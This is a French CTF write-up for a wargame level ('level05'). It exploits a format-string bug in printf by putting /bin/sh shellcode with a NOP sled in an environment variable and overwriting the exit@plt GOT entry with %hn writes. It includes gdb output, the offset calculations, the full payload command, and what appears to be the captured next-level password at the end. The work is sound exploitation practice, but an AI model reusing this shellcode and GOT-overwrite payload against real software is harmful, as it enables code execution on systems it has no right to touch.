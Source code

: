 export SHELLCODE=$(python -c 'print "\x90" * 1024 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')

Printf dispo pour format string injection.
Pas de return mais un exit() donc on va modif la plt.

0x08048513 <+207>:   call   0x8048370 <exit@plt>
(gdb) x/i 0x8048370
0x8048370 <exit@plt>:        jmp    *0x80497e0


(gdb) info variable environ
All variables matching regular expression "environ":
Non-debugging symbols:
0xf7fd0e04  __environ
0xf7fd0e04  _environ
0xf7fd0e04  environ

(gdb) x/x 0xf7fd0e04
0xf7fd0e04 <environ>:   0xffffd29c
(gdb) x/x 0xffffd29c
0xffffd29c:     0xffffd3fa
(gdb) x/s 0xffffd3fa
0xffffd3fa:      "LC_PAPER=fr_FR.UTF-8"
(gdb) x/5s 0xffffd3fa
0xffffd3fa:      "LC_PAPER=fr_FR.UTF-8"
0xffffd40f:      "LC_ADDRESS=fr_FR.UTF-8"
0xffffd426:      "LC_MONETARY=fr_FR.UTF-8"
0xffffd43e:      "SHELLCODE=\220\220.....
.........................................

0xffffd43e + 10 = 0xffffd448 pour ne pas avoir "SHELLCODE="

On peut encore decaler pour etre sur de taper dans les \x90
+512 = 0xffffd63e

offset de printf:
(python -c 'print "aaaa" + "%x"*24') | ./level05
aaaa64f7fcfac0f7ec3af9ffffd1afffffd1ae0ffffffffffffd234061616161
----                                                    --------
soit (python -c 'print "AAAA" + "%10$x"')


On ecrit d'abord la partie basse car la somme de la partie haute est plus grande:
d63e: 54846 - 8 = 54838
ffff: 65535 - 54838 - 8 = 10689

(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%54838d" + "%10$hn" + "%10689d" + "%11$hn"' ; cat) | ./level05



h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq